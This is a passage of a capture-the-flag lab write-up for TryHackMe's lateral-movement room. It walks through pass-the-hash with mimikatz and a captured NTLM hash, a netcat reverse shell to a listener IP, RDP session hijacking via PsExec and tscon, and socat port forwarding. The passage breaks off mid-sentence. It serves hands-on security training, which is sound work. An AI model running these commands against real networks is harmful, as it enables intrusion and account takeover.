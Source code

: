    DUMP

   Using this NTLM hash we can pass-the-hash using `mimikatz` to get a shell on THMIIS after setting up a listener using `nc`.

   ```cmd
   sekurlsa::pth /user:t1_toby.beck /domain:za.tryhackme.com /ntlm:533f1bd576caa912bdb9da284bbc60fe /run:"C:\tools\nc64.exe -e cmd.exe 10.50.77.144 1337"
   ```

   PTH
   
   After receiving the shell, we can move on to THMIIS using `winrs.exe`.

   ```cmd
   winrs.exe -r:THMIIS.za.tryhackme.com cmd
   ```

   FLAG

   ><details><summary>Click for answer</summary></details>

### Abusing User Behaviour

1. What flag did you get from hijacking t1_toby.beck's session on THMJMP2?

   First, head to http://distributor.za.tryhackme.com/creds_t2 to get new credentials. Then ssh into thmjmp2 with these credentials.

   ```cmd
   ssh za.tryhackme.com\\<username>@thmjmp2.za.tryhackme.com
   ```

   Next, we run `PsExec64.exe -s cmd.exe` and `query session` to list all (active) RDP connections.

   RDP

   We can now hijack the RDP session for Toby Beck using the ID and sessionkey.

   ```cmd
   tscon 3 /dest:rdp-tcp#47
   ```
   
   FLAG

   ><details><summary>Click for answer</summary></details>

### Port Forwarding

1. What is the flag obtained from executing "flag.exe" on t1_thomas.moore's desktop on THMIIS?

   Using the credential we obtained in the first task, we will connect to thmjmp2 through SSH. Here we will setup a `socat` forwarded port so we can rdp into thmiis.

   ```cmd
   ssh za.tryhackme.com\\tony.holland@thmjmp2.za.tryhackme.com

   socat TCP4-LISTEN:1337, fork TCP4:THMIIS.za.tryhackme.com:3389
   ```

   Th provided command for `socat` didn't work, so I had to modify the command:

